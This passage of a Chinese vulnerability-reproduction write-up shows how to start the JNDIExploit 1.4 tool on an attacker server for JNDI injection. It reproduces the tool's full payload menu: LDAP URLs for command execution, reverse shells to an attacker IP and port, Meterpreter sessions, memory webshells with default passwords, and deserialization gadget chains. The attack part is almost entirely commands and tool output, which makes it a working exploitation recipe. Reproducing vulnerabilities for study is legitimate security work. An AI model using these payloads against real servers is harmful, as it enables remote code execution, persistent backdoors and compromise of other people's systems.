 这次漏洞复现我搭建漏洞的靶机与开启的JNDI服务和反弹shell用的都是云服务器地址，实际应用中需要自行更改

上面是1.0版本JNDI的使用，下面是1.4版本JNDI的复现过程

在服务器上开启1.4的JNDI服务

```
bin ./java -jar ../../JNDIExploit1.4/JNDIExploit-1.4-SNAPSHOT.jar -i xx.xx.xx.xx -l 1389 -p 80
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 80...
```

反弹shell的payload，这个版本的payload使用方法可以使用-u参数查看

```
➜  bin ./java -jar ../../JNDIExploit1.4/JNDIExploit-1.4-SNAPSHOT.jar -u
Supported LADP Queries：
* all words are case INSENSITIVE when send to ldap server

[+] Basic Queries: ldap://0.0.0.0:1389/Basic/[PayloadType]/[Params], e.g.
    ldap://0.0.0.0:1389/Basic/Dnslog/[domain]
    ldap://0.0.0.0:1389/Basic/Command/[cmd]
    ldap://0.0.0.0:1389/Basic/Command/Base64/[base64_encoded_cmd]
    ldap://0.0.0.0:1389/Basic/ReverseShell/[ip]/[port]  ---windows NOT supported
    ldap://0.0.0.0:1389/Basic/TomcatEcho
    ldap://0.0.0.0:1389/Basic/SpringEcho
    ldap://0.0.0.0:1389/Basic/WeblogicEcho
    ldap://0.0.0.0:1389/Basic/TomcatMemshell1
    ldap://0.0.0.0:1389/Basic/TomcatMemshell2  ---need extra header [shell: true]
    ldap://0.0.0.0:1389/Basic/TomcatMemshell3  /ateam  pass1024
    ldap://0.0.0.0:1389/Basic/GodzillaMemshell /bteam.ico pass1024
    ldap://0.0.0.0:1389/Basic/JettyMemshell
    ldap://0.0.0.0:1389/Basic/WeblogicMemshell1
    ldap://0.0.0.0:1389/Basic/WeblogicMemshell2
    ldap://0.0.0.0:1389/Basic/JBossMemshell
    ldap://0.0.0.0:1389/Basic/WebsphereMemshell
    ldap://0.0.0.0:1389/Basic/SpringMemshell

[+] Deserialize Queries: ldap://0.0.0.0:1389/Deserialization/[GadgetType]/[PayloadType]/[Params], e.g.
    ldap://0.0.0.0:1389/Deserialization/URLDNS/[domain]
    ldap://0.0.0.0:1389/Deserialization/CommonsCollectionsK1/Dnslog/[domain]
    ldap://0.0.0.0:1389/Deserialization/CommonsCollectionsK2/Command/Base64/[base64_encoded_cmd]
    ldap://0.0.0.0:1389/Deserialization/CommonsBeanutils1/ReverseShell/[ip]/[port]  ---windows NOT supported
    ldap://0.0.0.0:1389/Deserialization/CommonsBeanutils2/TomcatEcho
    ldap://0.0.0.0:1389/Deserialization/C3P0/SpringEcho
    ldap://0.0.0.0:1389/Deserialization/Jdk7u21/WeblogicEcho
    ldap://0.0.0.0:1389/Deserialization/Jre8u20/TomcatMemshell
    ldap://0.0.0.0:1389/Deserialization/CVE_2020_2555/WeblogicMemshell1
    ldap://0.0.0.0:1389/Deserialization/CVE_2020_2883/WeblogicMemshell2    ---ALSO support other memshells

[+] TomcatBypass Queries
    ldap://0.0.0.0:1389/TomcatBypass/Dnslog/[domain]
    ldap://0.0.0.0:1389/TomcatBypass/Command/[cmd]
    ldap://0.0.0.0:1389/TomcatBypass/Command/Base64/[base64_encoded_cmd]
    ldap://0.0.0.0:1389/TomcatBypass/ReverseShell/[ip]/[port]  ---windows NOT supported
    ldap://0.0.0.0:1389/TomcatBypass/TomcatEcho
    ldap://0.0.0.0:1389/TomcatBypass/SpringEcho
    ldap://0.0.0.0:1389/TomcatBypass/TomcatMemshell1
    ldap://0.0.0.0:1389/TomcatBypass/TomcatMemshell2  ---need extra header [shell: true]
    ldap://0.0.0.0:1389/TomcatBypass/TomcatMemshell3  /ateam  pass1024
    ldap://0.0.0.0:1389/TomcatBypass/GodzillaMemshell /bteam.ico pass1024
    ldap://0.0.0.0:1389/TomcatBypass/SpringMemshell
    ldap://0.0.0.0:1389/TomcatBypass/Meterpreter/[ip]/[port]  ---java/meterpreter/reverse_tcp
```